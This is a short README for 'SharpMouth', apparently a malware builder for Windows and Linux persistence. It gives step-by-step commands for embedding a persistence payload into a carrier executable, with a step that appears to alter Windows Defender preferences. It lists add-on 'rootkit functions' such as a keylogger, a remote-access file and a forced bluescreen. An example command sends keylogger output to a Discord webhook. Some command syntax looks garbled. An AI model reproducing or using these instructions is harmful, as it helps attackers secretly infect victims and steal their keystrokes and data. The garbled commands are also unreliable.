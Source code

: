 # SharpMouth
SharpMouth is a collection of persists for Windows and Linux (FreeBSD, Proprietary Linux)

# Persistent Installation (Windows)

NOTE: The files located in /shar/ are the persistent files used for the SharpMouth persistence.

1. Download a Windows Persistence from /shar/
2. Download the SharpMouth Builder (Sharp-En-GB.exe)
3. Open Terminal or CMD
4. CD into Downloads Folder (or Download location)
5. Prepare the following commands:
* Sharp-En-GB.exe Install-Update Sharp-En-GB.exe -s
* Sharp-En-GB.exe Install-Recursive-Resource -Add-MpPreference
* Sharp-En-GB.exe Embed-Allow -Resursive:True -s
6. Run the following commands:
* Sharp-En-GB.exe Recursive-Install /Embed-Files <Injection-File.exe> <Sharp-Persist-File.0>
* Sharp-En-GB.exe Recursive-Install /Build-Now <Injection-File.exe>

NOTE: If you would like to add custom rootkit function, follow the steps below:
* Prepare the Injection-File.exe (EXE file that will contain the Persistent) and the Sharp-Persist.0 File (Persistent).
List of Rootkit Functions:
Keylogger
Discord-Log
Network-Crawl
Rat-File
Error-Box
Bluescreen-On-Run
* Run the following commands:
Sharp-En-GB.exe Recursive-Install <Sharp-Persist.0> /New-Function:<FUNCTION-NAME> /Resource-Send:<WEBHOOK-OR-TOKEN>
Example: Sharp-En-GB.exe Recursive-Install Sharp-Persist.0 /New-Function:Keylogger /Resource-Send:https://discord.com/webhooks/1033781578/ABC

* After you embed the functions, please install the build with the normal Persistent Installation.
